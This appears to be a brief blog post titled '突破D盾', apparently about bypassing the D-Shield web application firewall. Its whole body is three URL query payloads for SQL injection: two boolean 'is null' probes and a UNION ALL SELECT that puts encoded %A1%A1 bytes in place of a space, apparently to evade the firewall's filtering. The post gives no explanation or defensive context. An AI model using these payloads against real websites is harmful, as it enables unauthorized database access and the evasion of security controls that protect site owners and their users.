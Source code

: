 title: "突破D盾"
date: 2012-07-29 22:49:49
tags:
id: 89
comment: false
---

?id=2097%20is%20not%20null
?id=2097%20is%20null
?id=%282097%29UNION%20ALL%A1%A1SELECT